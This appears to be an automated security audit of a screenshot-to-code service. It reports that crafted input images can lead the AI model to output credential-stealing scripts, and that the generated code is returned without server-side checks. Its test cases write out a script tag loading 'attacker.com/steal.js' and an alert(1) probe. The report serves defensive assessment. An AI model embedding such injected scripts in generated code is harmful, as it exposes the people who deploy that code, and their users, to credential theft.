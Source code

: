 ### Vulnerabilities Meeting Criteria

#### 1. **Malicious Code Generation via Crafted Input Images (Critical)**
**Description**
Attackers can upload crafted input images designed to trick AI models into generating malicious code (e.g., phishing scripts, credential stealers). The backend processes images directly and returns code without validation.

**Exploit Steps**
1. Attacker sends an image of a login form with hidden malicious `<script>` to steal credentials.
2. The AI generates code containing the malicious script.
3. Users deploy the code unreviewed, exposing their users to attacks.

**Impact**
Generated code can execute arbitrary payloads, compromising users or systems.

**Rank** Critical

**Preconditions**
User access to the code generation endpoint.

**Source Code Analysis**
- **routes/generate_code.py**: The WebSocket route processes image data URLs directly (e.g., `stream_claude_response_native`).
- **prompts/screenshot_system_prompts.py**: AI is instructed to generate code matching the input image exactly, without safety guards.
- **image_processing/utils.py**: Preprocessing focuses on size/quality, not malicious content.

**Security Test Case**
1. Upload an image of a webpage with a hidden `<script src='attacker.com/steal.js'>`.
2. Use the API to generate code.
3. Verify the response includes the malicious script.

---

#### 2. **Missing Server-Side Validation of Generated Code (High)**
**Description**
The backend does not validate generated code for malicious elements (e.g., `<script>` tags, untrusted CDNs).

**Exploit Steps**
1. Send an image prompting the AI to include malicious JavaScript (e.g., `<script>alert(1)</script>`).
2. The backend returns the unfiltered code, which users deploy.

**Impact**
Deployed code can execute harmful payloads, exposing user data or systems.

**Rank** High

**Preconditions**
Attacker access to the code generation endpoint.

**Source Code Analysis**
- **routes/generate_code.py**: The `generate_code` function returns raw AI output without content checks.

**Security Test Case**
1. Request code generation for an image containing a malicious `<script>` tag.
2. Confirm the response includes the malicious code.

---

### Summary
Only **2 vulnerabilities** meet the criteria:
1. **Malicious Code Generation via Crafted Input Images** (Critical): Core risk of AI generating harmful code.
2. **Missing Server-Side Validation of Generated Code** (High): Lack of checks for malicious content in code.

Other vulnerabilities were excluded due to:
- Lower severity (Medium/Low).
- Unrealistic exploit scenarios (e.g., debug mode requires server access).
- Incomplete descriptions (missing source code analysis/security test cases).
- Irrelevance to the primary attack vector (e.g., CORS misconfiguration, API key exposure).

**Critical Action Required**: Implement server-side validation and filtering of AI-generated code to block malicious payloads.
